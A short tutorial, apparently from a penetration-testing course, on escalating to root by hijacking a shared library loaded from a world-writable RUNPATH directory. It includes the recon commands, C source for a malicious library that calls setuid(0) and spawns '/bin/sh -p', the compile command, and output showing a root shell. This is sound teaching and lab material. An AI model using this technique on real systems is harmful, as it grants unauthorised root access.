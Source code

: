 # Shared Object Hijacking

In the case where we see a strange dependency when running `ldd`, we can check the `RUNPATH` configuration.

```bash
$ readelf -d payroll | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
$ ls -al /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

Before compiling a library, we need to find the function name called by the binary. Lets copy a basic library as a placeholder for now.

```bash
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```bash
$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)

$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.`so, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.

src.c

```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
```

```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```

Executing the binary now pops a shell!

```bash
$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```
